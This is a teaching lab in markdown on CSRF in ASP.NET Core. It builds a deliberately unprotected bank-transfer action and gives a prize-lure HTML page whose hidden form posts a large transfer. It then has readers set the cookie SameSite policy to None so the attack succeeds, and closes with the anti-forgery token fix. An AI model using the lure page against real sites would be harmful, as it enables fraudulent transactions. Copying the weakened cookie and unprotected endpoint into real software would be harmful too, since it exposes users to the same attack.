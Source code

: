# Cross-Site Request Forgery (XSRF/CSRF) Attacks 

<!-- vscode-markdown-toc -->
* 1. [Objectives](#Objectives)
* 2. [Documentation](#Documentation)
* 3. [Step 1 - Create an application with individual user accounts](#Step1-Createanapplicationwithindividualuseraccounts)
* 4. [Step 2 - Add the CSRF vulnerable webpage](#Step2-AddtheCSRFvulnerablewebpage)
* 5. [Malicious or infected web site](#Maliciousorinfectedwebsite)
* 6. [Attacks](#Attacks)
* 7. [Bibliography](#Bibliography)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc --> 

##  1. <a name='Objectives'></a>Objectives

##  2. <a name='Documentation'></a>Documentation
Cross-site request forgery (also known as XSRF or CSRF, pronounced see-surf) is an attack against web-hosted apps whereby a malicious web app can influence the interaction between a client browser and a web app that trusts that browser. These attacks are possible because web browsers send some types of authentication tokens automatically with every request to a website. This form of exploit is also known as a one-click attack or session riding because the attack takes advantage of the user's previously authenticated session.

> Recommended further reading: Open Web Application Security Project - OWASP (description of the vulnerability in general): https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF); CSRF in ASP.NET: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery

# Vulnerable website - IronBank Web'Banking

##  3. <a name='Step1-Createanapplicationwithindividualuseraccounts'></a>Step 1 - Create an application with individual user accounts

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create a new "ASP.NET Core Web App (Model-View-Controller)" project named "IronBankWeb".

2. For "Authentication type" choose "Indvidual Accounts".

3. Notice that in the "Data" folder the application already includes the necessary database migrations.

4. Create an SQL Server database and update the connection string in `appsettings.json`.

5. Run the application.

6. Choose the "Register" link and create a new account.

##  4. <a name='Step2-AddtheCSRFvulnerablewebpage'></a>Step 2 - Add the CSRF vulnerable webpage

1. Add a new controller, called `BankAccountController`.
2. Decorate the controller using the `[Authorize]` annotation in order to prevent any unauthenticated requests towards the actions on this controller.
3. Add an action called `Transfer` to the `BankAccountController` as follows.

    ```C#
    public IActionResult Transfer()
    {
        return View();
    }
    ```

4. Add a new viewmodel class to the `Models` folder.

    ```C#
    public class TransferViewModel
    {
        [Required]
        public required string DestinationAccount { get; set; }
        [Required]
        public decimal? Amount { get; set; }
    }
    ```

4. Add a new View for the `Transfer` action.

    ```CSHTML
    @model TransferViewModel
    @{
        ViewData["Title"] = "Transfer";
    }

    <h2>Transfer</h2>

    @if(TempData["message"] != null)
    {
        <div class="alert alert-danger">
            @TempData["message"]
        </div>
    }

    <form method="post">
        <label asp-for="DestinationAccount"></label>
        <input asp-for="DestinationAccount" />
        <label asp-for="Amount"></label>
        <input asp-for="Amount" />
        <input type="submit" />
    </form>
    ```

5. Add a `POST` method for the form in the View

    ```C#
    [HttpPost]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        if (ModelState.IsValid)
        {
            TempData["Message"] = $"You have transfered {transfer.Amount} euros to {transfer.DestinationAccount}.";
            return RedirectToAction(nameof(Transfer));
        }
        return View(transfer);
    }
    ```

##  5. <a name='Maliciousorinfectedwebsite'></a>Malicious or infected web site

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create an `html` file with the following content.

    ```HTML
    <!DOCTYPE html>
    <html>
    <head>
        <title>Malicious or infected web site</title>
    </head>
        <body style="text-align:center;">

            <img src="winner.jpg">

            <h1>Congratulations!</h1>
            <h1>You have won a Samsung Galaxy Fold (2.000 euros)!!!!</h1>
            <form action="http://good-banking-site.com/api/account" method="post">
                <input type="hidden" name="DestinationAccount" value="RO85INGBXXXXXXXXXX">
                <input type="hidden" name="Amount" value="1000000">
                <input type="submit" value="Click to collect your prize!">
            </form>
        </body>
    </html>
    ```

2. You will need to replace "http://good-banking-site.com/api/account" with the actual address of the vulnerable form (ex: https://localhost:5001/BankAccount/Transfer).

##  6. <a name='Attacks'></a>Attacks

1. Try to perform the attack. You will notice that in modern browsers the attack is not working. 
2. Check the cookie policy in Google Chome.. Notice that the `AspNetCore.Identity.Application` cookie has the `SameSite` policy set to `Strict`. Let's change the `SameSite` policy to `SameSiteMode.None` by adding the following code to the `Main` method of the `Program` class.

    > Documentation for `SameSite`: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value

    > Potentially valid reasons for setting the `SameSite` policy to `SameSiteMode.None`: https://andrewlock.net/understanding-samesite-cookies/#:~:text=The%20one%20advantage%20of%20SameSite,and%20Lax%20won't%20work.

    ```C#
    builder.Services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.SameSite = SameSiteMode.None;
    });
    ```
3. Try to perform the attack again. The attack should work successfully. 
4. Let's prevent the attack by adding the `[ValidateAntiForgeryToken]` annotation to the `Transfer` action, as shown below.

    ```C#
    [HttpPost]
    [ValidateAntiForgeryToken]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        ....
    }
    ```
5. Check the hidden input in the form and the cookies set by the application.

    > Have you noticed that the token in the cookie and the one in the hidden input are different? You can read more about the reason at: https://stackoverflow.com/questions/20911470/why-is-there-a-difference-in-the-validateantiforgerytoken-cookie-value-and-hidde

##  7. <a name='Bibliography'></a>Bibliography
- Prevent Cross-Site Request Forgery (XSRF/CSRF) attacks in ASP.NET Core: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?
- OWASP CSRF: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
